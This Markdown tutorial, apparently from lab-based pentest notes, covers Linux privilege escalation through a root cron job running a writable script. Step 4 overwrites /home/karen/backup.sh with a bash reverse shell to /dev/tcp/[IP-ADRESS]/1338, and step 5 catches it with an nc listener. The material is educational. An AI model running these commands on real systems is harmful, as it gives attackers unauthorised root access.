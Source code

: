 ### **Introduction**

Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script that is executed as part of a cron job, we can replace it with our own code. This allows us to run arbitrary code with the privileges of the user executing the cron job, potentially gaining unauthorized access and control over the system.

### **Steps to Identify and Exploit Weak File Permission**

1.  By executing LinPEAS, we discover a cron job that runs every minute as root, marked with a red/yellow alert.  
    
    ![](../../../../img/Linux-Environment/87.png)

    ??? info "NOTE"

        Even without this being a red/yellow finding, it is worth a closer look!
    
2.  Check the permissions of the script executed by the cron job:  
    `ls -la /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/88.png)

    ??? info "NOTE"

        Here we see “rw”,  This means that we can either replace this file with a malicious one or edit it so that it executes a malicious command for us. 
    
3.  Next, we should Inspect the script to understand its functionality and decide whether to edit or replace it:  
    `cat /home/karen/backup.sh`  
    
    ![](../../../../img/Linux-Environment/89.png)
    
4.  Add the following command to the script that will give us a reverse shell:  
    `echo '#!/bin/bash' > /home/karen/backup.sh`  
    `echo "" >> /home/karen/backup.sh`  
    `echo 'bash -i >& /dev/tcp/[IP-ADRESS]/1338 0>&1' >> /home/karen/backup.sh`  

    ![](../../../../img/Linux-Environment/90.png) 

    ??? info "NOTE"

        In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh` 
    
5.  Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught:  
    `nc -lvnp 1338`  
    
    ![](../../../../img/Linux-Environment/91.png)

    In order for the cron job to execute our binary, don't forget give it execute permissions  
    `chmod +x /home/karen/backup.sh`

    ??? info "NOTE"

        Within a minute, the cron job should trigger, and you should obtain a root shell. 